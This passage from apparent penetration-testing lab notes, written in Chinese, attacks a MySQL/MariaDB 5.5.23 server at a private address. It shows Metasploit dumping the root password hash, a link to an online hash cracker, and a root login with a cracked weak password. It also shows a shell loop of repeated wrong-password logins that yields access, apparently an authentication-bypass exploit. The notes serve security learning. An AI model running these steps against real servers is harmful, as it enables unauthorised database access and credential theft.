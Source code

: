 ```bash
[+] 10.1.1.133:3306       - 10.1.1.133:3306 Saving HashString as Loot: root:*6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9
[+] 10.1.1.133:3306       - 10.1.1.133:3306 Saving HashString as Loot: root:*6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9
[+] 10.1.1.133:3306       - 10.1.1.133:3306 Hash Table has been saved: /root/.msf4/loot/20210608111341_default_10.1.1.133_mysql.hashes_091970.txt
[*] 10.1.1.133:3306       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

md5在线解密
https://www.cmd5.com/
```
<a name="qscf6"></a>
#### ![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1623122388706-918640e1-7c70-4393-aa32-a4a35cb4a110.png#clientId=ud6829d20-0241-4&from=paste&height=133&id=u38d68aab&originHeight=266&originWidth=827&originalType=binary&ratio=2&size=13440&status=done&style=none&taskId=u7ff51bed-21ab-4f2b-aad1-75a4a54536f&width=413.5)
```bash
└─# mysql -uroot -p123456 -h10.1.1.133
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 886
Server version: 5.5.23 Source distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| test               |
+--------------------+
4 rows in set (0.001 sec)
```
**方法二**
```bash
┌──(root💀kali)-[~]
└─# for i in `seq 1 1000`;do mysql -uroot -pwrong -h 10.1.1.133 -P 3306; done                                                                                                      130 ⨯
ERROR 1045 (28000): Access denied for user 'root'@'10.1.1.128' (using password: YES)
ERROR 1045 (28000): Access denied for user 'root'@'10.1.1.128' (using password: YES)
ERROR 1045 (28000): Access denied for user 'root'@'10.1.1.128' (using password: YES)
ERROR 1045 (28000): Access denied for user 'root'@'10.1.1.128' (using password: YES)
ERROR 1045 (28000): Access denied for user 'root'@'10.1.1.128' (using password: YES)
ERROR 1045 (28000): Access denied for user 'root'@'10.1.1.128' (using password: YES)
ERROR 1045 (28000): Access denied for user 'root'@'10.1.1.128' (using password: YES)
ERROR 1045 (28000): Access denied for user 'root'@'10.1.1.128' (using password: YES)
ERROR 1045 (28000): Access denied for user 'root'@'10.1.1.128' (using password: YES)
ERROR 1045 (28000): Access denied for user 'root'@'10.1.1.128' (using password: YES)
ERROR 1045 (28000): Access denied for user 'root'@'10.1.1.128' (using password: YES)
ERROR 1045 (28000): Access denied for user 'root'@'10.1.1.128' (using password: YES)
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 1553
Server version: 5.5.23 Source distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

```